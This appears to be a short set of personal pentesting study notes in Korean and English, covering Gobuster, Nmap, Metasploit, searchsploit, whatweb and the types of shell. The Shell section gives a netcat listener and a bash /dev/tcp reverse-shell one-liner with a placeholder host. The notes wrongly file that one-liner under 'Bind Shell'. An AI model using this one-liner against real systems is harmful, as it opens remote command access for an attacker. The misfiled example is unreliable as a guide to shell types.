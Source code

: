 
# Table of Contents

1.  [Gobuster](#org5ba2fd5)
    1.  [brute-forcing tool](#org3630185)
    2.  [dictionary-based](#orgfd59d9f)
    3.  [eg. gobuseter (directory) -u (url) -w (wordlist)](#org9d8d256)
2.  [robots.txt](#org9ad70b1)
    1.  [웹 크롤러의 정보 수집 범위를 제한하는 역할을 한다.](#orgb28f447)
3.  [Metasploit](#org233657d)
    1.  [많은 exploit들이 내장된 pentesting 도구](#org3b92f23)
4.  [Nmap](#org3385d62)
    1.  [포트스캔 도구](#orgc131b31)
5.  [searchsploit](#orgbfb0863)
    1.  [익스플로잇 검색 툴](#orgdf4f2a1)
    2.  [eg. searchsploit (application) (version)](#orgfb959bf)
6.  [Shell](#org51f4319)
    1.  [types of shell (for remote command execution)](#orgab009d9)
        1.  [Bind Shell: 공격자가 공격 대상에 쉘을 업로드하고, 연결하여 통신](#org6946722)
        2.  [Reverse Shell: 공격 대상에서 반대로 공격자쪽으로 연결하는 쉘](#org4e1d41a)
        3.  [Web Shell: 웹 서버를 이용하여 명령을 실행](#org97c4051)
7.  [whatweb](#org7725d54)
    1.  [웹서버의 버전과 간단한 정보를 출력하는 도구](#orgcb598f6)

\#-**- mode: org -**-


<a id="org5ba2fd5"></a>

# Gobuster


<a id="org3630185"></a>

## brute-forcing tool


<a id="orgfd59d9f"></a>

## dictionary-based


<a id="org9d8d256"></a>

## eg. gobuseter (directory) -u (url) -w (wordlist)


<a id="org9ad70b1"></a>

# robots.txt


<a id="orgb28f447"></a>

## 웹 크롤러의 정보 수집 범위를 제한하는 역할을 한다.


<a id="org233657d"></a>

# Metasploit


<a id="org3b92f23"></a>

## 많은 exploit들이 내장된 pentesting 도구


<a id="org3385d62"></a>

# Nmap


<a id="orgc131b31"></a>

## 포트스캔 도구


<a id="orgbfb0863"></a>

# searchsploit


<a id="orgdf4f2a1"></a>

## 익스플로잇 검색 툴


<a id="orgfb959bf"></a>

## eg. searchsploit (application) (version)


<a id="org51f4319"></a>

# Shell


<a id="orgab009d9"></a>

## types of shell (for remote command execution)


<a id="org6946722"></a>

### Bind Shell: 공격자가 공격 대상에 쉘을 업로드하고, 연결하여 통신

1.  netcat -lvnp <port>

2.  bash -c "bash -i >& *dev/tcp/host/port* 0>&1

3.  /dev/tcp/host/port 소켓을 기반으로 입출력 수행 (0>&1은 0이 1과 같은 곳으로 redirection 한다는 의미


<a id="org4e1d41a"></a>

### Reverse Shell: 공격 대상에서 반대로 공격자쪽으로 연결하는 쉘


<a id="org97c4051"></a>

### Web Shell: 웹 서버를 이용하여 명령을 실행


<a id="org7725d54"></a>

# whatweb


<a id="orgcb598f6"></a>

## 웹서버의 버전과 간단한 정보를 출력하는 도구


